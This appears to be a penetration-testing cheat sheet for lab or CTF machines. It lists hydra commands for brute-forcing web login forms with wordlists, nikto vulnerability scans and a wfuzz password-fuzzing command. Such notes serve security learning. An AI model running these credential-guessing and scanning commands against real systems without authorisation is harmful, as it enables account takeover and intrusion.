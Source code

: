 

    hydra -l <username> -P <pwd-list> <ip|dns> http-form-post "<login-page>:<post-content>:Invalid username"

Example:

    hydra -l Elliot -P /kali-share/downloads/fsocity.dic 192.168.56.105 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username"
    hydra -l terra -P /usr/share/wordlists/rockyou.txt earth.local https-form-post "/admin/login:csrfmiddlewaretoken=jKg3K2jLIrOih13TfJM1rOmnWdrOWfjbqlxpy7QWQtDbS7raUoMOJ5mT4PlIDZki&username=^USER^&password=^PASS^:Please enter a correct username and password" -I
    hydra -L /usr/share/wordlists/rockyou.txt -p test 192.168.56.112 -s 8080 http-form-post "/:username=^USER^&password=^PASS^:Invalid username"

Options:
- `-l` username
- `-L` username list
- `-p` password
- `-P` password list

# nikto
Gives vulnerabilities

    nikto -h http://<ip>:<port>

## Export

    nikto -h http://<ip>:<port> -o '/kali-share/nikto-<ip>-<port>.xml' -Format xml

Check if you find the following

- phpinfo
- system requirements
- software (i.e. twiki)

# wfuzz

> WARNING consume many resources

    wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -d "username=FUZZ&password=test" --ss "Invalid password" http://192.168.56.112:8080/

## Troubleshoot: Openssl

> Warning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

    sudo apt --purge remove python3-pycurl
    sudo apt install libcurl4-openssl-dev libssl-dev
    sudo pip3 install pycurl wfuzz patator
    sudo apt install kali-linux-default kali-linux-headless
